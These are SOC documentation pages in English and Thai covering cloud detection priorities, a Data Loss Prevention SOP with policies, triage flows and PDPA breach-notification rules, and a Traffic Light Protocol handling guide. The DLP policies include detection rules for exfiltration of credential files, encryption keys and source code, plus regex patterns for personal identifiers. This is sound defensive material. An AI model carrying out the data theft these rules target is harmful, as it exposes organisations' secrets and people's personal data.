| **Storage** | Public buckets/blobs, large downloads | Zero public buckets |
| **Compute** | Unauthorized instances, crypto mining indicators | Zero unauthorized |
| **Cost Anomaly** | Unexpected cost spikes (may indicate compromise) | Within 10% budget |

## Cloud Security KPIs

| ตัวชี้วัด | เป้าหมาย | ปัจจุบัน |
|:---|:---|:---|
| Cloud asset coverage (monitored) | ≥ 95% | [XX]% |
| Public-facing resource audit | รายสัปดาห์ | [ระบุ] |
| IAM over-privilege findings | 0 critical | [XX] |
| Compliance score (CIS Benchmark) | ≥ 90% | [XX]% |

## Cloud-specific Detection Rules

### AWS Detection Priorities

| Use Case | CloudTrail Event | Severity |
|:---|:---|:---|
| Root login | ConsoleLogin (root) | Critical |
| S3 public | PutBucketPolicy | High |
| IAM key created | CreateAccessKey | Medium |
| SecurityGroup open | AuthorizeSecurityGroupIngress (0.0.0.0) | High |
| CloudTrail disabled | StopLogging | Critical |

### Azure Detection Priorities

| Use Case | Activity Log Event | Severity |
|:---|:---|:---|
| Risky sign-in | Risk Detection | High |
| MFA disabled | Disable strong auth | Critical |
| Resource exposed | Network rule change | High |
| Privilege escalation | Add role assignment | High |
| Audit log disabled | Diagnostic setting delete | Critical |

### Multi-Cloud Monitoring Strategy

| Capability | AWS | Azure | GCP |
|:---|:---|:---|:---|
| Activity Logs | CloudTrail | Activity Log | Audit Log |
| Flow Logs | VPC Flow | NSG Flow | VPC Flow |
| Threat Detection | GuardDuty | Defender | SCC |
| Config Audit | Config | Policy | Asset Inv. |
| SIEM Integration | S3 → SIEM | EventHub → SIEM | Pub/Sub → SIEM |

### Cloud Alert Priority

| Alert | Platform | Priority |
|:---|:---|:---|
| Root/admin login | All | Critical |
| Public storage | AWS/Azure/GCP | High |
| MFA disabled | All | Critical |
| Unusual API calls | All | Medium |

### Cloud Compliance Check

| Standard | AWS Control | Azure Control |
|:---|:---|:---|
| CIS Benchmark | Config Rules | Policy |
| PCI DSS | SecurityHub | Defender |

## เอกสารที่เกี่ยวข้อง

-   [Log Source Matrix](Log_Source_Matrix.en.md) — แหล่งข้อมูลทั้งหมด
-   [SOC Automation Catalog](SOC_Automation_Catalog.en.md) — Cloud automations
-   [Alert Tuning SOP](Alert_Tuning.en.md) — การ tune cloud alerts
-   [Third-Party Risk](Third_Party_Risk.en.md) — ความเสี่ยง cloud vendor


---

## File: 06_Operations_Management/DLP_SOP.en.md

# Data Loss Prevention (DLP) SOP

**Document ID**: OPS-SOP-024
**Version**: 1.0
**Classification**: Confidential
**Last Updated**: 2026-02-15

> SOC procedures for **detecting, investigating, and preventing data loss** through DLP technology, policy enforcement, and incident response. Covers endpoint DLP, network DLP, cloud DLP, and email DLP.

---

## Data Classification

| Level | Label | Examples | DLP Action |
|:---|:---:|:---|:---|
| **L4** | 🔴 Secret | Encryption keys, security configs, board minutes | Block + alert SOC + CISO notify |
| **L3** | 🟠 Confidential | PII, financial data, source code, customer data | Block + alert SOC |
| **L2** | 🟡 Internal | Internal reports, meeting notes, HR documents | Alert SOC on external transfer |
| **L1** | 🟢 Public | Marketing materials, public website content | Log only |

---

## DLP Architecture

```mermaid
graph TD
    subgraph Endpoints["💻 Endpoint DLP"]
        A[USB monitoring]
        B[Print monitoring]
        C[Screen capture detection]
        D[Clipboard monitoring]
        E[Local file copy tracking]
    end
    
    subgraph Network["🌐 Network DLP"]
        F[Email gateway DLP]
        G[Web proxy inspection]
        H[HTTPS inspection]
        I[FTP/SFTP monitoring]
    end
    
    subgraph Cloud["☁️ Cloud DLP"]
        J[CASB integration]
        K[Cloud storage monitoring]
        L[SaaS app scanning]
        M[API-based DLP]
    end
    
    Endpoints --> N["🔍 DLP Policy Engine"]
    Network --> N
    Cloud --> N
    N --> O["⚡ SOC Alert Queue"]
    N --> P["📊 DLP Dashboard"]
    
    style N fill:#3b82f6,color:#fff
    style O fill:#dc2626,color:#fff
```

---

## DLP Policies

### Policy Categories

| Policy ID | Category | Detection Method | Action | Severity |
|:---|:---|:---|:---|:---:|
| DLP-001 | **Credit card numbers** | Regex + Luhn validation | Block + alert | P1 |
| DLP-002 | **Thai national ID** | 13-digit pattern + checksum | Block + alert | P1 |
| DLP-003 | **PII (name + address + phone)** | Named entity + proximity | Alert | P2 |
| DLP-004 | **Source code** | File extension + keyword | Block external | P2 |
| DLP-005 | **Financial statements** | Keyword + document class | Block external | P2 |
| DLP-006 | **Password/credential files** | File name + content pattern | Block all channels | P1 |
| DLP-007 | **Customer database exports** | Large CSV/Excel + PII columns | Block + alert | P1 |
| DLP-008 | **Intellectual property** | Classification label + keyword | Block external | P2 |
| DLP-009 | **Medical/health records** | ICD codes + patient identifiers | Block + alert | P1 |
| DLP-010 | **Encryption keys/certificates** | File extension + header pattern | Block all | P1 |

### Channel-Specific Policies

| Channel | Policies Applied | Inspection Depth | Action |
|:---|:---|:---:|:---|
| **Corporate email** | All DLP-001 to DLP-010 | Full content + attachments | Block/quarantine |
| **Personal email (webmail)** | DLP-001 to DLP-010 | URL + upload inspection | Block |
| **USB devices** | DLP-004 to DLP-010 | File content scan before copy | Block + alert |
| **Cloud storage** | DLP-001 to DLP-010 | CASB real-time scan | Block/quarantine |
| **Print** | DLP-001, DLP-002, DLP-005, DLP-007 | Print spool content scan | Alert + log |
| **Messaging apps** | DLP-001, DLP-002, DLP-003 | Content inspection | Alert |
| **Screen sharing** | DLP-001, DLP-007, DLP-009 | Watermark + detection | Warning |

---

## DLP Incident Response

### DLP Alert Triage

```mermaid
flowchart TD
    A[DLP Alert] --> B{Auto-blocked?}
    B -->|Yes| C[Review blocking action]
    B -->|No| D[Urgent: Review data exposure]
    
    C --> E{Legitimate<br/>business need?}
    D --> F{Data actually<br/>exposed?}
    
    E -->|Yes| G[Override + document exception]
    E -->|No| H[Investigate user intent]
    
    F -->|No| I[Tune policy to prevent alert]
    F -->|Yes| J[🔴 Data breach response]
    
    H --> K{Malicious<br/>intent?}
    K -->|Yes| L[Insider Threat process]
    K -->|Negligent| M[Training + policy reminder]
    K -->|No intent| N[Tune policy]
    
    J --> O[Contain + preserve evidence]
    O --> P[Assess data exposure scope]
    P --> Q[PDPA breach notification assessment]

    style A fill:#3b82f6,color:#fff
    style J fill:#dc2626,color:#fff
    style L fill:#dc2626,color:#fff
```

### DLP Incident Severity

| Severity | Criteria | Response SLA | Notification |
|:---|:---|:---:|:---|
| 🔴 P1 | L4 data confirmed exfiltrated | 30 min | CISO + Legal + DPO |
| 🔴 P1 | L3 data to external (bulk) | 30 min | CISO + Legal |
| 🟠 P2 | L3 data to unauthorized internal | 2 hrs | SOC Lead + data owner |
| 🟠 P2 | L2 data to external (bulk) | 2 hrs | SOC Lead |
| 🟡 P3 | L2 data to unauthorized internal | 8 hrs | SOC Lead |
| 🟡 P3 | Policy violation (no data exposed) | 24 hrs | Analyst handles |
| 🟢 P4 | False positive / tuning needed | 72 hrs | Analyst handles |

### Investigation Checklist

- [ ] Review DLP alert details (policy, channel, content match)
- [ ] Verify user identity (not shared account)
- [ ] Assess data classification level
- [ ] Determine if data actually left the organization
- [ ] Check if business justification exists
- [ ] Review user's DLP history (repeat offender?)
- [ ] Preserve evidence (screenshots, logs, content samples)
- [ ] Assess PDPA breach notification requirements
- [ ] Document findings and actions
- [ ] Update user risk profile (Insider Threat tracker)

---

## PDPA Breach Assessment

### Notification Decision Matrix

| Factor | Notify DPO | Notify PDPC | Notify Data Subjects |
|:---|:---:|:---:|:---:|
| L4 data confirmed exposed externally | ✅ | ✅ | ✅ |
| L3 PII exposed externally (> 500 records) | ✅ | ✅ | ✅ |
| L3 PII exposed externally (< 500 records) | ✅ | Assess | Assess |
| L3 data to unauthorized internal | ✅ | ❌ | ❌ |
| L2 data only | ❌ | ❌ | ❌ |
| Data encrypted and key not compromised | ✅ | ❌ | ❌ |

### PDPA Notification Timeline

| Action | Deadline |
|:---|:---:|
| Notify DPO | Within 24 hours of discovery |
| Notify PDPC (if required) | Within 72 hours of discovery |
| Notify data subjects (if high risk) | Without undue delay |
| Document breach assessment | Within 7 days |

---

## DLP Exception Management

### Exception Process

| Step | Owner | Output |
|:---:|:---|:---|
| 1 | User submits exception request via ticketing | Exception request form |
| 2 | Manager approves business justification | Manager approval |
| 3 | Data owner confirms data classification | Data owner sign-off |
| 4 | SOC reviews risk and compensating controls | Risk assessment |
| 5 | Security Manager approves (L2) or CISO (L3/L4) | Approved exception |
| 6 | Exception implemented with monitoring | Enhanced monitoring active |
| 7 | Re-review at expiration (max 90 days) | Renewed or revoked |

### Exception Tracker

| Exception ID | User | Data Type | Channel | Justification | Expiry | Status |
|:---|:---|:---|:---|:---|:---:|:---|
| DLP-EX-_____ | _________ | _______ | _______ | _____________ | __-__-__ | Active/Expired |

---

## DLP Tuning

### False Positive Reduction

| Tuning Action | When to Apply | Impact |
|:---|:---|:---|
| **Whitelisted senders** | Trusted partner domains | Reduce email DLP FPs |
| **Approved cloud apps** | Sanctioned business tools | Reduce cloud DLP FPs |
| **Threshold adjustment** | Too many small-volume alerts | Reduce noise |
| **Context rules** | Department-specific exceptions | Targeted reduction |
| **Document classifiers** | Improve classification accuracy | Fewer misclassifications |
| **User group policies** | Different rules per role | Appropriate enforcement |

### Tuning Metrics

| Metric | Target |
|:---|:---:|
| DLP false positive rate | < 20% |
| Policy accuracy (true match rate) | > 80% |
| Mean alerts per day | Trending downward |
| Exception request volume | < 10/month |

---

## Metrics

| Metric | Target | Measurement |
|:---|:---:|:---|
| DLP alert response time (P1) | < 30 min | Ticket timestamps |
| DLP alert response time (P2) | < 2 hrs | Ticket timestamps |
| Data breach incidents detected by DLP | Tracking | Monthly count |
| DLP policy coverage (channels monitored) | 100% of defined | Coverage audit |
| False positive rate | < 20% | FP / total alerts |
| Exception compliance (within 90 days) | 100% | Exception tracker |
| User recidivism rate | < 10% | Repeat DLP violations |
| PDPA notification compliance | 100% | Breach log |

---

## Related Documents

-   [Insider Threat Program](Insider_Threat_Program.en.md) — Insider threat detection
-   [Forensic Investigation](../05_Incident_Response/Forensic_Investigation.en.md) — Evidence handling
-   [Incident Classification](../05_Incident_Response/Incident_Classification.en.md) — Severity classification
-   [Alert Tuning SOP](Alert_Tuning.en.md) — DLP alert tuning
-   [Cloud Security Monitoring](Cloud_Security_Monitoring.en.md) — Cloud DLP integration


---

## File: 06_Operations_Management/DLP_SOP.th.md

# Data Loss Prevention (DLP) SOP / SOP การป้องกันข้อมูลรั่วไหล

**รหัสเอกสาร**: OPS-SOP-024
**เวอร์ชัน**: 1.0
**การจัดชั้นความลับ**: ลับ
**อัปเดตล่าสุด**: 2026-02-15

> ขั้นตอน SOC สำหรับ **ตรวจจับ, สืบสวน, และป้องกันข้อมูลรั่วไหล** ผ่าน DLP technology, การบังคับนโยบาย, และ incident response ครอบคลุม endpoint, network, cloud และ email DLP

---

## การจำแนกข้อมูล

| ระดับ | ป้าย | ตัวอย่าง | DLP Action |
|:---|:---:|:---|:---|
| **L4** | 🔴 ความลับสูงสุด | Encryption keys, board minutes | บล็อก + alert + แจ้ง CISO |
| **L3** | 🟠 ลับ | PII, ข้อมูลการเงิน, source code, ข้อมูลลูกค้า | บล็อก + alert |
| **L2** | 🟡 ใช้ภายใน | รายงานภายใน, บันทึกประชุม, เอกสาร HR | Alert เมื่อส่งภายนอก |
| **L1** | 🟢 สาธารณะ | สื่อการตลาด, เว็บไซต์สาธารณะ | บันทึก log |

---

## DLP Policies

| Policy ID | หมวด | วิธีตรวจจับ | Action | Severity |
|:---|:---|:---|:---|:---:|
| DLP-001 | **เลขบัตรเครดิต** | Regex + Luhn validation | บล็อก + alert | P1 |
| DLP-002 | **เลขบัตรประชาชน** | 13 หลัก + checksum | บล็อก + alert | P1 |
| DLP-003 | **PII (ชื่อ+ที่อยู่+เบอร์โทร)** | Named entity + proximity | Alert | P2 |
| DLP-004 | **Source code** | นามสกุลไฟล์ + keyword | บล็อกภายนอก | P2 |
| DLP-005 | **งบการเงิน** | Keyword + document class | บล็อกภายนอก | P2 |
| DLP-006 | **ไฟล์ password/credential** | ชื่อไฟล์ + content pattern | บล็อกทุกช่องทาง | P1 |
| DLP-007 | **Export ฐานข้อมูลลูกค้า** | CSV/Excel ขนาดใหญ่ + PII columns | บล็อก + alert | P1 |
| DLP-008 | **ทรัพย์สินทางปัญญา** | Classification label + keyword | บล็อกภายนอก | P2 |

---

## การตอบสนอง DLP Incident

### DLP Alert Triage

```mermaid
flowchart TD
    A[DLP Alert] --> B{ถูกบล็อกแล้ว?}
    B -->|ใช่| C[ตรวจสอบ blocking]
    B -->|ไม่| D[เร่งด่วน: ตรวจสอบข้อมูลรั่ว]
    C --> E{ธุรกิจจำเป็น?}
    D --> F{ข้อมูลรั่วจริง?}
    E -->|ใช่| G[Override + บันทึก exception]
    E -->|ไม่| H[สืบสวนเจตนา]
    F -->|ไม่| I[ปรับ tune policy]
    F -->|ใช่| J[🔴 Data breach response]
    H --> K{จงใจ?}
    K -->|ใช่| L[Insider Threat process]
    K -->|ประมาท| M[เทรน + เตือน]

    style A fill:#3b82f6,color:#fff
    style J fill:#dc2626,color:#fff
```

### ระดับ Severity

| Severity | เกณฑ์ | SLA | แจ้ง |
|:---|:---|:---:|:---|
| 🔴 P1 | L4 ยืนยันรั่วไหล | 30 นาที | CISO + Legal + DPO |
| 🔴 P1 | L3 ข้อมูลจำนวนมากไปภายนอก | 30 นาที | CISO + Legal |
| 🟠 P2 | L3 ไปยังบุคคลภายในที่ไม่ได้รับอนุญาต | 2 ชม. | SOC Lead + data owner |
| 🟡 P3 | L2 ไปภายนอก (bulk) | 8 ชม. | SOC Lead |
| 🟢 P4 | FP / ต้อง tune | 72 ชม. | Analyst handles |

---

## การประเมิน PDPA Breach

### ตัดสินใจแจ้ง

| ปัจจัย | แจ้ง DPO | แจ้ง PDPC | แจ้งเจ้าของข้อมูล |
|:---|:---:|:---:|:---:|
| L4 ยืนยันรั่วไหลภายนอก | ✅ | ✅ | ✅ |
| L3 PII ภายนอก (> 500 records) | ✅ | ✅ | ✅ |
| L3 PII ภายนอก (< 500 records) | ✅ | ประเมิน | ประเมิน |
| L3 ไปยังภายในที่ไม่ได้รับอนุญาต | ✅ | ❌ | ❌ |
| ข้อมูลเข้ารหัสและ key ไม่ compromise | ✅ | ❌ | ❌ |

### กรอบเวลาแจ้ง PDPA

| Action | กำหนด |
|:---|:---:|
| แจ้ง DPO | ภายใน 24 ชม. |
| แจ้ง PDPC (ถ้าจำเป็น) | ภายใน 72 ชม. |
| แจ้งเจ้าของข้อมูล (ถ้าเสี่ยงสูง) | โดยไม่ชักช้า |
| จัดทำเอกสารประเมิน breach | ภายใน 7 วัน |

---

## การจัดการ Exception

| ขั้น | ผู้รับผิดชอบ | ผลลัพธ์ |
|:---:|:---|:---|
| 1 | ผู้ใช้ส่งคำขอ exception | แบบฟอร์ม |
| 2 | ผู้จัดการอนุมัติเหตุผลทางธุรกิจ | อนุมัติผู้จัดการ |
| 3 | เจ้าของข้อมูลยืนยันการจำแนก | sign-off |
| 4 | SOC ประเมินความเสี่ยง | การประเมิน |
| 5 | Security Manager อนุมัติ (L2) หรือ CISO (L3/L4) | อนุมัติ |
| 6 | ใช้ exception พร้อม monitoring | enhanced monitoring |
| 7 | ทบทวนเมื่อหมดอายุ (สูงสุด 90 วัน) | ต่อหรือยกเลิก |

---

## การ Tune DLP

| ปรับจูน | เมื่อไร | ผลกระทบ |
|:---|:---|:---|
| **Whitelist senders** | Partner domains ที่เชื่อถือ | ลด FP email |
| **Approved cloud apps** | Business tools ที่อนุมัติ | ลด FP cloud |
| **ปรับ threshold** | Alert เล็กน้อยเยอะเกินไป | ลด noise |
| **Context rules** | Exception ตามแผนก | ลดที่เป้าหมาย |

---

## ตัวชี้วัด

| ตัวชี้วัด | เป้าหมาย |
|:---|:---:|
| DLP alert response time (P1) | < 30 นาที |
| DLP alert response time (P2) | < 2 ชม. |
| DLP policy coverage | 100% |
| False positive rate | < 20% |
| Exception compliance (ภายใน 90 วัน) | 100% |
| PDPA notification compliance | 100% |

---

## ตัวอย่าง DLP Policies เพิ่มเติม

### Personal Data (PII) Detection

| ประเภทข้อมูล | Pattern | ตัวอย่าง | Action |
|:---|:---|:---|:---|
| เลขบัตรประชาชน | `\d{1}-\d{4}-\d{5}-\d{2}-\d{1}` | 1-1234-56789-01-2 | Block + Alert |
| เลขบัตรเครดิต | Luhn algorithm match | 4111-xxxx-xxxx-1111 | Block + Alert |
| เลขหนังสือเดินทาง | `[A-Z]{2}\d{7}` | AA1234567 | Alert |
| เบอร์โทรศัพท์ | `0[689]\d-\d{3}-\d{4}` | 081-234-5678 | Log |

### Source Code Exfiltration

| Channel | Detection Method | Action |
|:---|:---|:---|
| Email + attachment (.py, .js, .go) | File extension matching | Alert + Hold |
| Cloud storage upload | API monitoring | Block + Alert |
| USB copy | Endpoint DLP agent | Block + Alert |
| Git push to personal repo | URL pattern matching | Block + Alert |

## Incident Response สำหรับ DLP Events

```mermaid
graph TD
    DLP["🚨 DLP Alert"] --> Triage["📋 SOC Triage"]
    Triage --> FP{"False Positive?"}
    FP -->|ใช่| Tune["ปรับ Policy"]
    FP -->|ไม่| Investigate["🔍 สอบสวน"]
    Investigate --> Intent{"เจตนา?"}
    Intent -->|ไม่ตั้งใจ| Educate["📚 อบรมผู้ใช้"]
    Intent -->|ตั้งใจ| Insider["🔒 Insider Threat Process"]
    Insider --> HR["แจ้ง HR + Legal"]
```

## DLP Tool Comparison

| คุณสมบัติ | Microsoft Purview | Symantec DLP | Forcepoint | Wazuh FIM |
|:---|:---:|:---:|:---:|:---:|
| Network DLP | ✅ | ✅ | ✅ | ❌ |
| Endpoint DLP | ✅ | ✅ | ✅ | ✅ (FIM) |
| Cloud DLP | ✅ | ✅ | ✅ | ❌ |
| Content Inspection | ✅ | ✅ | ✅ | ❌ |
| Price | M365 bundle | Commercial | Commercial | ฟรี |

## DLP KPIs

| ตัวชี้วัด | เป้าหมาย | ปัจจุบัน |
|:---|:---|:---|
| DLP Alerts/เดือน | < 100 (หลัง tuning) | [XX] |
| False Positive Rate | < 15% | [XX]% |
| เวลาตอบสนอง DLP Alert | < 30 นาที | [XX] นาที |
| จำนวน Policy violations/เดือน | ลดลง MoM | [XX] |
| ผู้ใช้ที่ผ่านอบรม DLP | ≥ 90% | [XX]% |

## DLP Policy Templates

### Classification-based Actions

| Data Class | ตรวจจับ | Action | แจ้งเตือน |
|:---|:---|:---|:---|
| Restricted | Exact match | Block + Alert | SOC + DPO |
| Confidential | Pattern match | Warn + Log | SOC |
| Internal | Keyword | Log only | Monthly review |
| Public | N/A | Allow | None |

### Common DLP Channels

| Channel | Detection Method | False Positive Rate |
|:---|:---|:---|
| Email | Content inspection | 15-20% |
| Web Upload | URL + content | 10-15% |
| USB | Device control | 5% |
| Cloud Storage | API + CASB | 20-25% |
| Print | Print server hook | 10% |

### Incident Response for DLP Violations

| Severity | Response Time | Action | Escalation |
|:---|:---|:---|:---|
| Critical | 15 min | Block + Investigate | CISO + Legal |
| High | 1 hr | Alert + Review | SOC Manager |
| Medium | 4 hrs | Log + Queue review | SOC Analyst |
| Low | 24 hrs | Awareness reminder | Auto-email |

### DLP Tuning Schedule

| Activity | Frequency | Owner |
|:---|:---|:---|
| FP review | Weekly | SOC Analyst |
| Policy update | Monthly | Security Engineer |
| Threshold tuning | Quarterly | SOC Manager |
| Full policy review | Annual | CISO |

### User Awareness Actions

| Violation Count | Action |
|:---|:---|
| 1st | Auto-notification |
| 2nd | Manager CC |
| 3rd | Security training |
| 4th+ | HR escalation |

## เอกสารที่เกี่ยวข้อง

-   [Insider Threat Program](Insider_Threat_Program.en.md) — ตรวจจับ insider threat
-   [Forensic Investigation](../05_Incident_Response/Forensic_Investigation.en.md) — การจัดการหลักฐาน
-   [Alert Tuning SOP](Alert_Tuning.en.md) — การ tune DLP alerts
-   [Cloud Security Monitoring](Cloud_Security_Monitoring.en.md) — Cloud DLP integration


---

## File: 06_Operations_Management/Data_Handling_Protocol.en.md

# Data Handling Protocol (TLP 2.0)

**Effective Date**: 2026-02-15
**Version**: 1.0

## 1. Overview
The Traffic Light Protocol (TLP) was created to facilitate greater sharing of information. TLP is a set of designations used to ensure that sensitive information is shared with the appropriate audience.

## 2. Classification Logic
Use this flow to determine the correct TLP level for your data/incident.

```mermaid
graph TD
    Start[Data/Information] --> IsPublic{Is it public?}
    IsPublic -->|Yes| CLEAR[TLP:CLEAR]
    IsPublic -->|No| IsRestricted{Restricted to community?}
    IsRestricted -->|Yes| GREEN[TLP:GREEN]
    IsRestricted -->|No| IsOrgOnly{Restricted to Org?}
    IsOrgOnly -->|Yes| AMBER[TLP:AMBER]
    IsOrgOnly -->|No| IsPersonal{Restricted to Individual?}
    IsPersonal -->|Yes| RED[TLP:RED]
    
    style RED fill:#ff0000,color:#fff
    style AMBER fill:#ffbf00,color:#000
    style GREEN fill:#00ff00,color:#000
    style CLEAR fill:#ffffff,color:#000,stroke:#333
```

## 3. TLP Definitions

### 🔴 TLP:RED (For Your Eyes Only)
-   **Definition**: Not for disclosure, restricted to participants only.
-   **Examples**: VPN Logs with passwords, Forensic Reports linking to a specific employee, Ongoing negotiation with ransomware actors.
-   **Sharing**: Cannot be shared with anyone outside of the specific meeting or conversation.

### 🟡 TLP:AMBER (Limited Disclosure)
-   **Definition**: Limited disclosure, restricted to the organization's need-to-know.
-   **Examples**: Internal incident reports, Vulnerability scan results, System architecture diagrams.
-   **Sharing**: Clients may share with members of their own organization and clients who need to know.

### 🟢 TLP:GREEN (Community Wide)
-   **Definition**: Limited disclosure, restricted to the community.
-   **Examples**: IoCs (IPs/Hashes) of a known threat actor, General advice on mitigation.
-   **Sharing**: Information can be shared with peers and partner organizations within the sector.

### ⚪ TLP:CLEAR (World Wide)
-   **Definition**: Unlimited disclosure.
-   **Examples**: Public PR statements, Whitepapers, Patch notes.
-   **Sharing**: Subject to standard restrictions (copyright), but otherwise freely shareable.

## 4. Usage in Incident Reports
All Incident Reports MUST be marked with a TLP level at the top of the document.

### Marking Format
```
TLP: [RED/AMBER/GREEN/CLEAR]
```

## 5. Handling Procedures by TLP Level

| TLP Level | Storage | Transmission | Sharing | Retention |
| :--- | :--- | :--- | :--- | :--- |
| 🔴 RED | Encrypted + restricted folder | Encrypted channel only (PGP/Signal) | Named individuals only | Until case closed |
| 🟡 AMBER | Encrypted at rest | TLS 1.2+ / encrypted email | Within organization + NDA partners | Per retention policy |
| 🟢 GREEN | Standard SOC storage | Standard secure channels | Sector community / ISACs | Per retention policy |
| ⚪ CLEAR | Any storage | Any channel | Public | Indefinite |

## 6. Common Scenarios & Correct TLP

| Scenario | Correct TLP | Rationale |
| :--- | :--- | :--- |
| IoCs from active incident shared with ISP | 🟡 AMBER | Contains org-specific details |
| Hash values from public malware analysis | ⚪ CLEAR | Publicly available data |
| Raw forensic image of employee laptop | 🔴 RED | Contains personal/credential data |
| Quarterly threat report for partner SOCs | 🟢 GREEN | General sector applicability |
| Internal vulnerability scan results | 🟡 AMBER | Org-specific risk data |
| Ransomware negotiation communications | 🔴 RED | Highly sensitive, named individuals |

## 7. Violation Response

| Violation | Severity | Response |
| :--- | :--- | :--- |
| TLP:RED shared externally | 🔴 Critical | Immediate containment, CISO notification, HR review |
| TLP:AMBER posted publicly | 🟠 High | Content removal, incident report, awareness training |
| No TLP marking on report | 🟡 Medium | Return to author, default to AMBER until marked |
| TLP:GREEN shared to social media | 🟡 Medium | Review content, assess impact, coaching |

## 8. PDPA / Data Protection Mapping

| TLP Level | PDPA Applicability | DPO Notification |
| :--- | :--- | :--- |
| TLP:RED | Always — likely contains PII | Required before sharing |
| TLP:AMBER | Likely — review for PII | Required if PII present |
| TLP:GREEN | Unlikely — IoCs only | Not required |
| TLP:CLEAR | No — public data | Not required |

## 9. TLP Markings in Practice

### Email Subject Format
```
[TLP:RED] Incident INC-2026-042 — Forensic Analysis Results
[TLP:AMBER] Vulnerability Scan Results — Q1 2026
[TLP:GREEN] IOC Advisory — Banking Trojan Campaign
[TLP:CLEAR] SOC Monthly Summary — January 2026
```

### Document Header Template
```
╔═══════════════════════════════════════════╗
║  TLP: [RED/AMBER/GREEN/CLEAR]            ║
║  Classification Date: YYYY-MM-DD         ║
║  Classified By: [Name, Role]             ║
║  Review Date: YYYY-MM-DD                 ║
╚═══════════════════════════════════════════╝
```

### Chat/Slack Message Format
```
🔴 TLP:RED — Do not screenshot or forward
[Your sensitive message here]

🟡 TLP:AMBER — Org only
[Your restricted message here]
```

## 10. Data Loss Prevention (DLP) for SOC

| Risk | Detection | Prevention |
|:---|:---|:---|
| Analyst copies IOCs to personal device | DLP monitors USB/cloud uploads | Block USB, restrict cloud storage |
| Screenshots of sensitive data shared | Screen monitoring (if compliant) | Watermark SOC screens |
| Investigation data sent to personal email | Email DLP rules | Block personal email in SOC |
| Forensic evidence on unencrypted drive | Asset inventory + encryption check | Full disk encryption mandatory |
| PII in investigation notes on shared drive | DLP content scanning | Data classification training |

## 11. Data Retention Schedule

| Data Type | Retention Period | Storage | Destruction Method |
|:---|:---|:---|:---|
| SIEM raw logs | 90 days hot / 1 year cold | Encrypted storage | Automated purge |
| Incident tickets | 3 years | Ticketing system | Archive after 3 years |
| Forensic evidence | Until case closure + 1 year | Encrypted vault | Secure wipe + certificate |
| Threat intelligence reports | 2 years | TI platform | Archive |
| SOC metrics/dashboards | 2 years | Reporting system | Archive |
| PII from investigations | Until case closure | Case file (encrypted) | Secure delete + DPO confirm |
| PDPA breach records | 5 years (legal requirement) | Encrypted archive | Retain per regulation |

## TLP Quick Reference Card

Print and post at SOC workstations:

```
╔══════════════════════════════════════════════╗
║           TLP 2.0 QUICK REFERENCE            ║
╠══════════════════════════════════════════════╣
║ 🔴 TLP:RED     — Named recipients ONLY       ║
║                  NO forwarding, NO sharing    ║
║ 🟠 TLP:AMBER   — Org + need-to-know clients  ║
║                  OK to share within org       ║
║ 🟡 TLP:AMBER+S — Org + need-to-know, strict  ║
║                  Do NOT share with clients    ║
║ 🟢 TLP:GREEN   — Community/sector sharing OK  ║
║                  NO public posting            ║
║ ⚪ TLP:CLEAR   — Public, no restrictions      ║
║                  OK to post anywhere          ║
╠══════════════════════════════════════════════╣
║ When in doubt → treat as TLP:AMBER           ║
║ Questions? Ask SOC Manager                    ║
╚══════════════════════════════════════════════╝
```

## Related Documents
-   [Incident Response Framework](../05_Incident_Response/Framework.en.md)
-   [SOC Assessment Checklist](SOC_Assessment_Checklist.en.md)
-   [SOC Metrics & KPIs](SOC_Metrics.en.md)

## References
-   [FIRST.org TLP 2.0 Standard](https://www.first.org/tlp/)
-   [CISA Traffic Light Protocol](https://www.cisa.gov/tlp)


---

## File: 06_Operations_Management/Data_Handling_Protocol.th.md

# โปรโตคอลการจัดการข้อมูล (TLP 2.0)

**วันที่มีผลบังคับใช้**: 2026-02-15
**เวอร์ชัน**: 1.0

## 1. ภาพรวม
Traffic Light Protocol (TLP) คือมาตรฐานสากลที่ใช้กำหนดขอบเขตในการแบ่งปันข้อมูล เพื่อให้มั่นใจว่าข้อมูลที่มีความละเอียดอ่อนจะถูกส่งต่อไปยังผู้ที่เกี่ยวข้องเท่านั้น

## 2. ขั้นตอนการจำแนกข้อมูล (Classification Logic)
ใช้แผนผังด้านล่างเพื่อตัดสินใจเลือก TLP Level

```mermaid
graph TD
    Start[ข้อมูล/ข่าวสาร] --> IsPublic{เป็นสาธารณะหรือไม่?}
    IsPublic -->|ใช่| CLEAR[TLP:CLEAR]
    IsPublic -->|ไม่| IsRestricted{จำกัดเฉพาะกลุ่มชุมชน?}
    IsRestricted -->|ใช่| GREEN[TLP:GREEN]
    IsRestricted -->|ไม่| IsOrgOnly{จำกัดเฉพาะองค์กร?}
    IsOrgOnly -->|ใช่| AMBER[TLP:AMBER]
    IsOrgOnly -->|ไม่| IsPersonal{จำกัดเฉพาะบุคคล?}
    IsPersonal -->|ใช่| RED[TLP:RED]
    
    style RED fill:#ff0000,color:#fff
    style AMBER fill:#ffbf00,color:#000
    style GREEN fill:#00ff00,color:#000
    style CLEAR fill:#ffffff,color:#000,stroke:#333
```

## 3. คำนิยาม TLP

### 🔴 TLP:RED (ลับที่สุด / เฉพาะบุคคล)
-   **คำนิยาม**: ห้ามเปิดเผยต่อผู้อื่น จำกัดไว้เฉพาะผู้รับสารโดยตรงเท่านั้น
-   **ตัวอย่าง**: Log ที่มีรหัสผ่าน, รายงาน Forensics ที่ระบุชื่อพนักงานที่ทำผิด, การเจรจากับแฮกเกอร์
-   **การแบ่งปัน**: ห้ามส่งต่อ หรือบอกกล่าวแก่บุคคลอื่นนอกเหนือจากคู่สนทนา

### 🟡 TLP:AMBER (จำกัดภายในองค์กร)
-   **คำนิยาม**: เปิดเผยได้จำกัด เฉพาะผู้ที่มีความจำเป็นต้องรู้ (Need-to-know) ภายในองค์กร
-   **ตัวอย่าง**: รายงานเหตุการณ์ภัยคุกคามภายใน, ผล Scan ช่องโหว่, ผังเครือข่ายภายใน
-   **การแบ่งปัน**: ส่งต่อได้เฉพาะพนักงานภายในองค์กรที่เกี่ยวข้อง

### 🟢 TLP:GREEN (จำกัดภายในกลุ่มเครือข่าย)
-   **คำนิยาม**: เปิดเผยได้ภายในกลุ่มชุมชนหรืออุตสาหกรรมเดียวกัน
-   **ตัวอย่าง**: IoC (IP/Hash) ของกลุ่มแฮกเกอร์, คำแนะนำการป้องกันทั่วไป
-   **การแบ่งปัน**: แชร์กับบริษัทคู่ค้า หรือกลุ่มอุตสาหกรรมเดียวกันได้ (เช่น กลุ่มธนาคาร)

### ⚪ TLP:CLEAR (สาธารณะ)
-   **คำนิยาม**: เปิดเผยได้ไม่จำกัด
